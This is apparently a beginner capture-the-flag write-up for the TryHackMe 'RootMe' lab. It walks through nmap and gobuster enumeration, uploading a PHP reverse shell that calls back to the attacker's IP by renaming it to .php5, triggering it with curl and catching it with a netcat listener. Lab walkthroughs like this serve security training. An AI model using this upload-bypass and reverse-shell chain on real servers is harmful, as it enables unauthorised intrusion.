

# RootMe Write-Up


A ctf for beginners, can you root me?

<!-- truncate -->

## Enumeration

### nmap

nmap finds two open TCP ports, SSH (22), HTTP (80):

- `-sC` - Scan using the default nmap scripts.
- `-sV` - Pull version information of open ports.
- `-T4` - How fast the scan will be, in this case is aggressive.
- `-v` - Verbose output.
- `-oN scans/nmap.txt` - Save output to a file.

```
$ nmap -sV -T4 -F -v 10.10.176.53 -oN scans/nmap.txt
Nmap scan report for 10.10.176.53
Host is up (0.049s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/.
```

The nmap scan result above will answer the first three questions:

- How many ports are open? **2**
- What version of Apache is running? **2.4.29**
- What service is running on port 22? **SSH**

### Directory Fuzzing

Run `gobuster` to look for hidden directories and files on the web server:

- `dir` - To use directory/file brute-forcing mode.
- `-u` - Is the flag to tell gobuster that we are scanning a URL.
- `-w` - Is the flag to set the list of possible directory and file names.
- `-o` - Is the flag to save the output in a file.

```
$ gobuster dir -u http://10.10.132.185/ -w ~/Desktop/SecLists/Discovery/Web-Content/common.txt -o scans/gobuster.txt
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://10.10.132.185/css/]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 311] [--> http://10.10.132.185/js/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.132.185/panel/]
/server-status        (Status: 403) [Size: 278]
/uploads              (Status: 301) [Size: 316] [--> http://10.10.132.185/uploads/]
```

The gobuster scan result above will answer the next question:

- What is the hidden directory? **/panel/**

## Visit the Hidden Directory

From the web browser type `http://10.10.132.185/panel/`.


Looks like we can use this to upload a **web shell** and get a reverse shell. Download the php reverse shell script from [GitHub](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Make sure to change the values in the script with your own IP address and a port of your choice to get a reverse shell:

```
$ip = '10.9.211.69'; // Your IP
$port = 10000;       // Port of your choice
```

Trying to upload the **php-reverse-shell.php** file I get the following error.


I tried other extensions such as **jpg** and it uploaded successfully. I changed from **PHP** to a **php5** extension and that uploaded successfully too.



## Foothold

Start a **netcat** listener from your machine with the specified port in the **php-reverse-shell.php** file:

```
$ nc -nvlp 10000
```

In another terminal run the **php-reverse-shell.php** script by using **curl**:

```
$ curl http://10.10.132.185/uploads/php-reverse-shell.php5
```

Go back to check on your listener if you have a establish connection:

```
$ nc -nvlp 10000
Connection from 10.10.132.185:34698
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 13:35:29 up 50 min,  0 users,  load average: 0.00, 0.00, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

Search for the `user.txt` using `find`:

- `/` - Start the search from the root directory.
- `-type f` - Find to look exclusively for files.
- `-name user.txt` - Search for a file with the name _“user.txt”_.
- `2>/dev/null` - The stdout messages will go to a black hole.

```
$ find / -type f -name user.txt 2>/dev/null
/var/www/user.txt
THM{y0u_************
```

Retrieve the content of `user.txt` file:

```
$ cat /var/www/user.txt
```

The codeblock above answers the question:

- What is user.txt? __THM\{y0u\_e*\*\*\*\*\*\*\*\*\*\*\*__

And the machine is pwned ;)

## References

- ReddyyZ. (2020, September 09). <span class="reference-title">RootMe</span>. *THM Challenges*. [https://tryhackme.com/r/room/rrootme](https://tryhackme.com/r/room/rrootme)
